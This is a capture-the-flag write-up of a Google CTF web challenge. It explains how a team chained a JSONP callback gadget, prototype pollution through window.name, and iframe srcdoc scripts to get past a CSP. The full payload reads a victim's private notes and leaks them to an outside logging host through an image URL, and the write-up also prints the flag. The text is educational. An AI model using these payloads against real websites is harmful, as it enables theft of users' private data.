




# All The Little Things
*Solution and write-up by team [Kalmarunionen](https://capturetheflag.withgoogle.com/scoreboard/kalmarunionen). We were one of only 20 teams to solve this during the competition.*

From the challenge description we can assume, that we need to find a private note for the user TJ Mike. We invoke him from the [Pasteurize](pasteurize.md) website previously used. Thus, we already know, that we have full unrestricted XSS on that domain.



## TL;DR
- Use `?__debug__` in the url to load `/static/script/debug.js`
- Poison the user object using the window.name with a JSON-payload similarly to 
```javascript
window.name = '{"__proto__":{},"theme":{"cb":"alert"}}';
```
- Use the `window.name` to inject an iframe allowing multiple invocations of `<script src="/theme?cb=XXX"></script>` where `XXX` is the payload
- Put the page contents in the url of an image loading an attacker-controlled page

## Initial Observations
A server-side vulnerability was quickly ruled out, leaving us with client-side attacks. Cookies are HTTP-only, meaning we cannot access and steal them from JavaScript. As private notes can only be viewed by the owner, we need to make the challenge user fetch it for us. We do not know the url of the note we wish to read, thus, we will first have to fetch the `/note` page to list all notes and afterwards fetch the content of the particular note.

Due to the Content Security Policy header (CSP) below we are not allowed to execute inline JavaScript, but only JavaScript from the domain it self. The only allowed remote resources are images, thus payload has to be served directly from the website and can be extracted using redirection or images. The full CSP is:
```
content-security-policy:
	default-src 'none';script-src 'self' 'nonce-dd52beb8df5224c2';img-src https: http:;connect-src 'self';style-src 'self';base-uri 'none';form-action 'self';font-src https://fonts.googleapis.com
```

## Vulnerabilities
### JavaScript Callback
Fortunately it is possible to serve JavaScript using the following gadget:
```html
<script src="/theme?cb=alert"></script>
```
Returned Content:
```javascript
alert({"version":"b1.13.7","timestamp":1598271043089})
```
However, the filtering taking place on the endpoints only lets us use basic characters such as A-Z, 0-9, underscore, dot (.) and the equal sign. No plus (no concatenation!), commas, parentheses, brackets, spaces or (semi)colons. In short, we only have one method call. Assignment can be made using `slice()` or similar, to get rid of the forced function invocation:
```html
<script src="/theme?cb=document.body.firstElementChild.innerHTML=window.name.slice"></script>
```
Returned Content:
```javascript
document.body.firstElementChild.innerHTML=window.name.slice({"version":"b1.13.7","timestamp":1598271043089})

// which is equalent to
document.body.firstElementChild.innerHTML = window.name

```

#### Multiple Calls

To achive multiple JavaScript calls, we use a neat little trick. When utilising `elm.innerHTML = '<script src=/theme?cb=alert></script>'` the script will never be executed as per the spec. However, if we inject an iframe with content, it will execute the script if it conforms to the CSP: 
```javascript
// newlines inserted for clarity
elm.innerHTML = '<iframe srcdoc="
        <script src=/theme?cb=alert></script>
        <script src=/theme?cb=alert></script>
    "></iframe>'
```

#### String Concatenation

To leak the page contents, we need to put it in the url of an image or an redirect. In either case, it should point to our domain, hence we need to concatenate to strings or at least be able to append. This can be done using a simple gadget:

```html
<span id=container>
    <span id=first>https://domain.com/</span>
    <span id=second>content</span>
<span>
```
And then in JavaScript we can just fetch it all using 
```javascript
console.log(window.container.innerText) // prints "https://domain.com/content"
```

### User Object Polution
Despite the `User` class having private properties `username`, `theme` and `img` we can overwrite them. Lets first inspect the relevant code:

File `/static/scripts/user.js`:
```javascript
class User {
    #username; #theme; #img
    constructor(username, img, theme) {
        this.#username = username
        this.#theme = theme
        this.#img = img
    }
    get username() {
        return this.#username
    }

    get img() {
        return this.#img
    }

    get theme() {
        return this.#theme
    }

    toString() {
        return `user_${this.#username}`
    }
}

function make_user_object(obj) {

    const user = new User(obj.username, obj.img, obj.theme);
    window.load_debug?.(user);

    // make sure to not override anything
    if (!is_undefined(document[user.toString()])) {
        return false;
    }
    document.getElementById('profile-picture').src=user.img;
    window.USERNAME = user.toString();
    document[window.USERNAME] = user;
    update_theme();
}
```
File `/static/scripts/debug.js`:
```javascript
// Extend user object
function load_debug(user) {
    let debug;
    try {
        debug = JSON.parse(window.name);
    } catch (e) {
        return;
    }

    if (debug instanceof Object) {
        Object.assign(user, debug);
    }
    ...
```

Of special interest is the `Object.assign(user, debug)` in the `debug.js`. Here we are assigning properties from the `debug` object into the `user` object. To be able to overwrite the private properties, we have to use prototype polution:



Notice the difference - whem we specify `"__proto__"` we do not get any errors and are able to overwrite the private properties.

## Chaining It All Together
The target is once again TJ Mike from the Pasteurize application. See our [Pasteurize write-up](pasteurize.md)For details on how to gain XSS on that. It will be the starting point where we launch our attack. 

The payload we inject into the Pasteurize application does the following:

1) injects an iframe into the page using content stored in `window.name`
2) the content/srcdoc of the iframe contains two scripts
3) the first script appends the page contents to our target extraction url
4) the last script loads an image with above url

```javascript
window.name = `{"__proto__":{},"theme":{"cb":"document.body.firstElementChild.innerHTML=window.name.slice"},"i":"<iframe srcdoc='<span id=total><span id=a>\/\/xss.wep.dk\/log\/5f43ce07ebcf5\/<\/span><span id=b></span></span><script src=/theme?cb=window.b.innerText=window.parent.document.body.innerText.slice><\/script><script src=/theme?cb=window.img.src=window.total.innerText.slice><\/script>'/>"}`;
```

### First Invocation - Fetching The Note Id
After running the above command to name the window, we redirect the TJ Mike to the note listing page:

```javascript
window.location = "https://littlethings.web.ctfcompetition.com/note?__debug__";
```

[The result](https://xss.wep.dk/?id=5f43ce07ebcf5) reveals the target note id:



### Second Invocation - Fetching The Secret
Using the same `window.name` as above we now redirect TJ Mike directly to the note:
```javascript
window.location = "https://littlethings.web.ctfcompetition.com/note/22f23db6-a432-408b-a3e9-40fe258d500f?__debug__";
```

The result:


Flag: `CTF{When_the_w0rld_c0mes_t0_an_end_all_that_matters_are_these_little_things}`

